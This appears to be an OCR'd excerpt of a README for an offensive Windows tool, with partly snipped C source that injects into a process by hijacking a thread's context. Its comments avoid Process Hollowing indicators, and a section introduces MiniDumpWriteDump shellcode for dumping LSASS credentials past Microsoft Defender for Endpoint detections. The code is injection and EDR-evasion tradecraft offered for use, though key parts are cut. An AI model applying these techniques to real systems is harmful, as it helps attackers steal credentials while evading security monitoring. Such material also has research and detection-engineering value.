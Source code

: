 ```
int main(int argc, char* argv[])
{
	
	/* Blindside technique for unhooked ntdll */
	[snip]
	
	/* Process Injection */
	[snip]

	// Get thread context of primary thread
	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;
	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the primary thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread
	ntResumeThread(ntThread, NULL);

	// Mapped section isn't unmapped to avoid Process Hollowing IoC's 
	/* status = ntUnmapViewOfSection(
		GetCurrentProcess(),
		hLocalAddress); */

	// Clean up injected process
	if (hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
	RtlDestroyProcessParameters(ProcessParameters);

	// Close Blindside Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

### Leveraging MiniDumpWriteDump Shellcode to bypass MDE detections

EDR Detection mechanisms have evolved around the MiniDumpWriteDump function, primarily detecting such LSASS dumping techniques by:
1. Hooking the MiniDumpWriteDump function along with its associated usage patterns
2. Opening up a new handle to the LSASS process itself
3. Dropping a memory dump of LSASS on disk
4. Signature of the dump file (file gets detected and deleted)
